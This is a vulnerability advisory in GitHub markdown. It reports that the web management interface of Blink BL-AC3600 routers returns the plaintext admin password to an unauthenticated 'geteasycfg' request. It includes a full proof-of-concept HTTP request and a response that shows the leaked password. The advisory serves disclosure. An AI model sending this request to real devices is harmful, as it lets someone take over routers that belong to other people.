



# Plaintext Password Leakage in the Web Management Interface of BL-AC3600 Routers

BUG_Author: waiwai

Vendor：[Blink](https://www.b-link.net.cn/)

Product: [BL-AC3600](https://www.b-link.net.cn/product_29_177.html)

Affected Version: V1.0.22 and earlier 

Vulnerability Files: `libblinkapi.so`

## Description

The Web management interface of the Blink router `/cgi-bin/lighttpd.cgi` directly returns the plaintext admin password (password field) when responding to the `{"type":"geteasycfg"}` request. Attackers can obtain the admin password by constructing HTTP requests and thereby fully control the device.

When handling `geteasycfg` requests, the `bs_GetEasyInfo` function in `libblinkapi.so` is called for business logic processing. This function has a security flaw: it directly reads the administrator password (Routepwd) from the UCI configuration without encryption or desensitization processing, and directly writes the plaintext password into the JSON response and returns it.



## POC

Request: 

The value of Authorization can be filled in at will

```
POST /cgi-bin/lighttpd.cgi HTTP/1.1
Host: x.x.x.x:8080
Accept-Language: zh-CN,zh;q=0.9
Cookie: user=admin
Referer: http://192.168.2.2/html/index.html
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Authorization: 1
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.2.2
Content-Length: 21

{"type":"geteasycfg"}
```

Response：

```
HTTP/1.1 200 OK
Date: Fri, 27 Jun 2025 16:53:53 GMT
Server: lighttpd/1.4.59
Content-Length: 165

{"type":"geteasycfg","version":"SOLAR-V36-300M-28A-S-EN,1.0.3","operationmode":"wisp","wanstatus":"unlink","netstatus":"link","password":"admin@123","jumpflag":"0"}
```


## Example

First request:

return default password



To verify that the vulnerability holds true, log in to the webui to modify the password and make a new request. The returned password value is the modified one.

Second request：

return modified password admin@123

